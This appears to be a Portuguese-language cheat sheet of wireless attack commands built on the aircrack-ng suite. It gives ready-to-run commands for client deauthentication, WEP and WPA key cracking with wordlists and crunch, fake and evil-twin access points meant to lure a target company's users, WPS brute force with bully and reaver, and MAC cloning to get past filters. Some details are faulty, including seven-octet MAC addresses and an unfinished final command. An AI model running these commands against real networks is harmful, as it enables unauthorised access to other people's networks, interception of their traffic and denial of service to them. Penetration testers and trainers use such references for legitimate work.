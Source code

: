 # AIRCRACK-NG

## AIRMON-NG

Checando processos conflitantes:  
```bash
airmon-ng check
```

Matando processos conflitantes:  
```bash
airmon-ng check kill
```

Iniciando modo monitor:  
```bash
airmon-ng start wlan0
```
*O nome da interface pode variar.*

Setando canal específico:
```bash
iwconfig wlan0mon channel 1
```

## AIRODUMP-NG

Ver informações das redes wireless:  
```bash
airodump-ng wlan0mon
```

Filtrando por canal:  
```bash
airodump-ng -c 10 wlan0mon
```

Filtrando por BSSID:  
```bash
airodump-ng --bssid 00:11:22:AA:BB:CC wlan0mon
```

Filtrando por tipo de criptografia:  
```bash
airodump-ng --encrypt wep wlan0mon
```

Verificando redes com WPS:  
```bash
airodump-ng wlan0mon --wps
```
```bash
wash -i wlan0mon -C
```

Capturando os pacotes e escrevendo em um arquivo:  
```bash
airodump-ng -c 10 --bssid 00:11:22:AA:BB:CC -w capture wlan0mon
```

## AIREPLAY-NG

Para acelerar a captura de pacotes através do airodump-ng no ataque WEP:  
```bash
aireplay-ng -3 -b 00:11:22:AA:BB:CC -h AA:BB:CC:DD:EE:FF:99 wlan0mon
```
**-b** ==> BSSID do roteador alvo.  
**-h** ==> BSSID do cliente conectado ao roteador.  

Para acelerar a captura de handshakes através do airodump-ng no ataque WPA:  
```bash
aireplay-ng -0 5 -a 00:11:22:AA:BB:CC -c AA:BB:CC:DD:EE:FF:99 wlan0mon
```
**-a** ==> MAC access point.  
**-c** ==> MAC do cliente.  
**-0 5** ==> Deauth cliente 5 vezes.

## AIRCRACK-NG

Quebra do arquivo capturado no airodump-ng para redes WEP:  
```bash
aircrack-ng capture-01.cap
```

Quebra do arquivo capturado no airodump-ng para redes WPA:  
```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Concatenar crunch e o aircrack-ng:  
```bash
crunch 15 15 -t EmpresaAlfa%%%% 0123456789 | aircrack-ng captura-01.cap -w - -e EmpresaAlfa
```

## AIRDECAP-NG

Desencriptando pacotes escriptados em rede wireless:  
```bash
airdecap-ng -w A0:11:22:33:44:55:66:77:CC:B1:B4:8A:D3 capture-01.cap
```
**-w** ==> Senha em HEX da rede.

## AIRBASE-NG

Criando AP Fake OPN:  
```bash
airbase-ng wlan0mon -c 3 -e FreeWifi
```

Criando AP Fake WPA2:  
```bash
airbase-ng wlan0mon -c 3 -e FreeWifi -Z 4
```

Configurando AP Fake para possuir acesso à internet:  
1- echo 1 > /proc/sys/net/ipv4/ip_forward  
2- iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
3- apt install isc-dhcp-server  
4- nano /etc/default/isc-dhcp-server
```bash  
INTERFACES="at0"
```
5- nano /etc/dhcp/dhcpd.conf
```bash
option domain-name-servers 8.8.8.8, 8.8.4.4;  

default-lease-time 600;  
max-lease-time 7200;  

ddns-update-style none;

subnet 10.0.0.0 netmask 255.255.255.0 {
  range 10.0.0.10 10.0.0.100;
  option routers 10.0.0.1;
}
```
5- ifconfig at0 10.0.0.1/24  
6- service isc-dhcp-server start

### EVIL TWIN

Consiste em criar uma rede idêntica a do alvo.  

Criando rede através do airbase-ng:  
```bash
airbase-ng wlan0mon -c 10 -e EmpresaAlfa -a 00:11:22:33:44:55 -Z 4
```

Agora iremos efetuar o Death dos clientes:  
```bash
aireplay-ng wlan0mon -0 5 -a 00:11:22:33:44:55
```
*Logo os usuários irão se conectar no AP Fake.*

## BULLY

Brute force em WPS:  
```bash
bully wlan0mon -b 00:11:22:AA:BB:CC -e EmpresaAlfa -c 10
```

## REAVER

Brute force em WPS:  
```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv
```

Ataque PixieWPS:  
```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1
```
```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1 -P
```

Utilizando timeout e delay:  
```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -t 2 -d 5
```

## MAC Changer

Clonando MAC de cliente para conectar em redes com MAC Filter:  
```bash
ifconfig wlan0 down  
```
```bash
macchanger -m AA:BB:CC:DD:EE:FF:99 wlan0  
```
```bash
ifconfig wlan0 up  
```
```bash
service NetworkManager  
```